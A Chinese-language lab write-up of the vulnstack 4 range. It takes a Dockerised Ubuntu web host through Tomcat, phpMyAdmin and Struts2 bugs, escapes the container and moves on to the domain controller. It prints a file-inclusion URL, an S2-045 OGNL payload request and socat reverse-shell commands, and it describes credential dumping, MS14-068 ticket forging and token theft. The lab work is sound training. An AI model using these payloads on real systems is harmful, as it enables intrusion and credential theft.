

# 从外网到域控（vulnstack靶机实战4）


                                阅读量   
                                **867232**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">5</a>
                                </b>
                                                                                                                                    
                                                                                            


[](./img/198648/t01b1ecef973b4c4fc7.jpg)


## 前言

大家好，我是鸿鹄实验室的lengyi,红日靶机又更新了，所以我就玩了玩…

vlunstack是红日安全团队出品的一个实战环境，具体介绍请访问：[http://vulnstack.qiyuanxuetang.net/vuln/detail/6/](http://vulnstack.qiyuanxuetang.net/vuln/detail/6/)

具体的网络架构作者已经给出，如下图：

[](./img/198648/t01f8a9cb5b5cfd0621.png)

ubuntu为我们的web环境，其中的web环境需要手动开启，全部为docker环境，启动方法如下：

```
docker-compose build
docker-compose up -d
```

需要启动的环境分别为：s2-045、CVE-2017-12615、 cve-2018-12613，别问我怎么知道的，问就是试的….

全开的效果：

[](https://p0.ssl.qhimg.com/t01f6e98208527d6773.png)


## 外网测试

既然是docker的环境，那就把三个web全部拿下先，先从tomcat的开始，CVE-2017-12615是一个老漏洞了，很简单的利用，put上传webshell即可。

[](https://p3.ssl.qhimg.com/t016323af444e2813cf.png)

然后发现目标为root权限（docker环境不为root还奇怪呢…）

[](https://p0.ssl.qhimg.com/t010cfb13d9a037f974.png)

好，我们这个先放到一边，再来继续测试另外两个环境，CVE-2018-12613,这个是一个phpmyadmin的洞，也就是文件包含，利用起来也还算方便，方法如下（环境为config模式，可直接使用test账户登录）：

```
http://192.168.0.104:2003/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```

[](https://p3.ssl.qhimg.com/t01aed19590cbdeb901.png)

至于包含shell也是比较简单的，select执行一个php代码，包含自己的session即可。

下面是st2-045，st2系列也是一个经典的系列，直接构造下面的数据包即可rce。

```
POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Length: 0
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data
```

[](https://p0.ssl.qhimg.com/t0165b8dc52c842a48a.png)

好了，三个环境就算是基本完成了，下面就是一个比较重要的问题，docker逃逸。我这里使用cve-2019-5736进行逃逸。先使用msf搞一个shell回来：

[](https://p3.ssl.qhimg.com/t0134f67f84a0c4afdb.png)

这里是我们可以修改在宿主机上进行操作的命令

[](https://p4.ssl.qhimg.com/t01271b57f09084cac8.png)

可自行修改对于的payload，然后编译，

```
go build main.go
```

然后将编译好的文件传到目标机上，因为我已经有了一个大马了，上传很方便。继续为了方便,socat搞一个tty的shell过来

```
socat file:`tty`,raw,echo=0 tcp-listen:4444  
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

[](https://p2.ssl.qhimg.com/t01911edaaa762762b8.png)

执行

[](https://p2.ssl.qhimg.com/t01b5ad4615116ded65.png)

然后在主机执行：

[](https://p2.ssl.qhimg.com/t01a4f5ce7ed51d3be8.png)

Poc执行成功：

[](https://p0.ssl.qhimg.com/t015f176d4ac61370b0.png)

然后我们用这种方法(直接传shell或者添加用户搞shell)在宿主机上执行一个cs和msf的shell回来。

[](https://p4.ssl.qhimg.com/t017b354dd1c56b3a4e.png)


## 横向移动

msf添加路由，session返回到后台

[](https://p0.ssl.qhimg.com/t01fa23b39d6731312f.png)

因为有拓扑图，只需要进行攻击即可，我们先来测试win7，内网嘛，17-010试试？

[](https://p1.ssl.qhimg.com/t0171eb79f56ad2c1fa.png)

不过，有一说一，我就没打虚拟机成功过….

[](https://p5.ssl.qhimg.com/t018546c2a61aee4cd2.png)

当然也有可能是uac的问题，换成bypassUAC的进行测试：

[](https://p5.ssl.qhimg.com/t01d740aaa6930dfc44.png)

获得shell

[](https://p0.ssl.qhimg.com/t016753109dc3c66085.png)

且直接是system权限：

[](https://p5.ssl.qhimg.com/t0148dd9ee763df5d6f.png)

进入交互模式，随手一看，发现有一些存在的工具，不知道是不是作者的安排,虽然没有到时候也需要传一些…

[](https://p5.ssl.qhimg.com/t017450a45962ddbff7.png)


## 进攻域控

先抓一下win7的明文：

[](https://p4.ssl.qhimg.com/t01056de58df1d777de.png)

然后就是忌出我们的ms14-068了

[](https://p0.ssl.qhimg.com/t01fb5369838add51c8.png)

然后查看本机用户的id

[](https://p4.ssl.qhimg.com/t01fe9c1c4faa67a331.png)

写入成功：

[](https://p1.ssl.qhimg.com/t01cc7806ca72c3d6a9.png)

mimikztz注入票据

[](https://p0.ssl.qhimg.com/t0172ab16e17ac27ca4.png)

获取域控权限：

[](https://p3.ssl.qhimg.com/t017ed6b8cf2b94dd01.png)

[](https://p2.ssl.qhimg.com/t01784b20102df44503.png)

然后将payload放到ubuntu上，使用certutil下载、执行，即可获取shell。

[](https://p1.ssl.qhimg.com/t0157ef6aa9dd5d67ab.png)

发现部分administrator的进程

[](https://p3.ssl.qhimg.com/t01e52b9c9195afe561.png)

进行令牌窃取

[](https://p4.ssl.qhimg.com/t01026fdceb4d1dedbf.png)

获得administrator权限，然后抓取明文密码

[](https://p3.ssl.qhimg.com/t01d440b731e55aec73.png)

打完收工。


## 总结

哦，谢谢红日的各位师傅们，拜谢，啊，我想开学…
